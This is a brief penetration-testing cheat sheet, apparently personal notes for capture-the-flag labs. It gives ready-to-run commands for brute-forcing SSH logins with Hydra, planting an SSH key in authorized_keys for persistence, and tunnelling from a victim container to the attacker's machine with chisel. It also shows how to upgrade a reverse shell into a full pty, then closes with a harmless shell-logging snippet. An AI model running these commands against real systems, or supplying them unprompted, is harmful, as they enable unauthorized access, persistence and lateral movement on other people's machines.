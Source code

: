 # Tips
## Bruteforce SSH
Use Hydra :
```bash
hydra -l 'USERNAME' -P FILE_CONTAINING_PASSWORDS -M FILE_CONTAINING_IP_TO_BRUTEFORCE -t 4 ssh
```
## Persistance
Generate SSH key :
```bash
ssh-keygen -t rsa
```
Paste it to authorized_keys :
```bash
echo XXXX >> ~/.ssh/authorized_keys
```
Then, put the file on the target machine.
## Port Forwarding
### Using SSH
To access a locally exposed service on a remote machine :
```bash
ssh -L YOUR_PORT:localhost:PORT_EXPOSED USERNAME@IP_ADDRESS
```
### Using chisel
To redirect a port (here, 3000) when you're in a docker for example (victim = 172.17.0.1 and your host = 10.10.16.8). Firstly, run a chisel server on your host :
```bash
./chisel server -p 5555 --reverse
```
Then, on the docker, redirect to your host from the victim machine :
```bash
./chisel client 10.10.16.8:5555 R:8890:172.17.0.1:3000
```
Then you can access the service with http://localhost:8890/.
## Get a proper shell on reverse shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Logs all your commands
In order to keep all the commands you've used, paste this at the end of your .zshrc file (located in home) :
```bash
PS1=$'[`date  +"%d-%b-%y %T"`]%{\033[01;31m%} `ifconfig eth0 2>/dev/null | sed -n 2,2p | cut -d" " -f 10`%{\033[00m%} %{\033[01;34m%}%c%{\033[00m%} > '
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/.log/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)
```
You can then just cat logs on a terminal, it will print it out pretty well.
